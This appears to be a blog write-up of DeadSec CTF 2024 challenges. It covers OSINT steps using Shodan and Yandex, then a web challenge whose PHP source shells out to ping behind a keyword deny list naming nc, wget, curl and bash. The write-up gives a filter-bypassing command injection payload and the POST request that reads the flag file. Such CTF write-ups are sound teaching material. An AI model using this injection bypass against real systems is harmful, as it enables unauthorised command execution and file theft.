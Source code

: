 ```yaml
---
title: 'DeadSec CTF 2024'
date: 2024-07-27
permalink: /posts/2024/07/deadsecctf/
tags:
  - web
  - osint
  - misc
---
```


Introduction
=====
<div style="text-align: center;">
  <img src="/images/deadsec2024.png" alt="DeadSec2024" />
</div>
DeadSec CTF 2024 is an online jeopardy-style CTF organized by DeadSec Team.
There will be challenges with a wide range of difficulty mainly from cryptography, reverse, pwn, web, misc...

***I cleared(n't) all Osint Challenge***

# Osint

* **Windows Server**
> Author: Onsra03

    This challenge provides an image
    <div style="text-align: center;">
        <img src="/images/chall1-ds.png" alt="Challenge" />
    </div>
    <br>
    We can see this image shows a login screen for **Windows Server 2008 R2 Enterprise**. It has 3 users: admin, *Leanrdo*, and guest. I focused on user `Leandro Couto Nunes` and looked at him on various popular social media sites, but there was no result. I remembered a website called [Shodan](https://www.shodan.io/) that can help me find everything related to Internet-connected devices. Finally, I found his computer's IP.
    <div style="text-align: center;">
        <img src="/images/shodan-ds.png" alt="Challenge" />
    </div>
    <br>
    <div style="text-align: center;">
        <img src="/images/rerult-chall1-ds.png" alt="Challenge" />
    </div>

    > FLAG: dead{187.17.201.3_abcrede provedor de internet ltda_as28265}


* **Who Is That Man?**
> Author: Onsra03

    The second challenge provides an image
    <div style="text-align: center;">
        <img src="/images/chall2.png" alt="Challenge" />
    </div>
    <br>
    We can see that this image shows a place. When I search on Google, I can't find anything related to this place, so I use [Yandex](https://yandex.com/), the best search engine in Russia, to find the most characteristic building.
    <div style="text-align: center;">
        <img src="/images/colorbuilding-ds.png" alt="Challenge" />
    </div>
    <br>
    But I can't find it because this area has many of the same buildings. I changed the target of the building to have a signboard, and here is the result:
    <div style="text-align: center;">
        <img src="/images/yandex-ds.png" alt="Challenge" />
    </div>
    <br>
    <div style="text-align: center;">
        <img src="/images/yandexmap-ds.png" alt="Challenge" />
    </div>
    <br>
    After that, I used a Yandex map to find exactly where this picture was taken.
    <div style="text-align: center;">
        <img src="/images/flag-chall2-ds.png" alt="Challenge" />
    </div>
    <br>
    
    > FLAG: dead{username-in-Eng} #so lazy to translate again

    > With 3 parts of Financial Supporter, which I will update later. And now, we continue to analyze some web challenges that I collected on Discord.
    
# Web

* **Bing2**
> Author: Onsra

    This was a web challenge. We were provided certain files for the web server, including "bing.php".
    
    ```
    <?php if (isset($_POST['Submit'])) {
	$target = trim($_REQUEST['ip']);
	$substitutions = array(
		' ' => '',
		'&'  => '',
		'&&' => '',
		'('  => '',
		')'  => '',
		'-'  => '',
		'`'  => '',
		'|' => '',
		'||' => '',
		'; ' => '',	
		'%' => '',
		'~' => '',
		'<' => '',
		'>' => '',
		'/ ' => '',
		'\\' => '',
		'ls' => '',
        'cat' => '',
        'less' => '',
        'tail' => '',
        'more' => '',
        'whoami' => '',
        'pwd' => '',
        'busybox' => '',
        'nc' => '',
        'exec' => '',
        'sh' => '',
        'bash' => '',
        'php' => '',
        'perl' => '',
        'python' => '',
        'ruby' => '',
        'java' => '',
        'javac' => '',
        'gcc' => '',
        'g++' => '',
        'make' => '',
        'cmake' => '',
        'nmap' => '',
        'wget' => '',
        'curl' => '',
        'scp' => '',
        'ssh' => '',
        'ftp' => '',
        'telnet' => '',
        'dig' => '',
        'nslookup' => '',
        'iptables' => '',
        'chmod' => '',
        'chown' => '',
        'chgrp' => '',
        'kill' => '',
        'killall' => '',
        'service' => '',
        'systemctl' => '',
        'sudo' => '',
        'su' => '',
        'flag' => '',
	);
	$target = str_replace(array_keys($substitutions), $substitutions, $target);
	if (stristr(php_uname('s'), 'Windows NT')) {
		$cmd = shell_exec('ping  ' . $target);
	} else {
		$cmd = shell_exec('ping  -c 4 ' . (string)$target);
        echo $cmd;
	}
	```
    Read this source code; I realize the vulnerability here is command injection into *ping* command. But it has many filters; I need to bypass them. With the **space**, I can use `${IFS}` (Internal Field Separator)  to bypass; with the **cat** command, I can use `'` character inserted between letters; this bypasses the filter, but the command still executes. Finally, use the `*` which called wildcard to bypass the **flag** word. Conclusion: My payload is
    >### **;c'a't${IFS}/fla***

    ```
    POST /bing.php HTTP/2

    ip=;c'a't${IFS}/fla*&Submit=Submit
    ```
    *Remember, `submit` parameter is required*

    Send request and get flag!
    >Flag: DEAD{5b814948-3153-4dd5-a3ac-bc1ec706d766}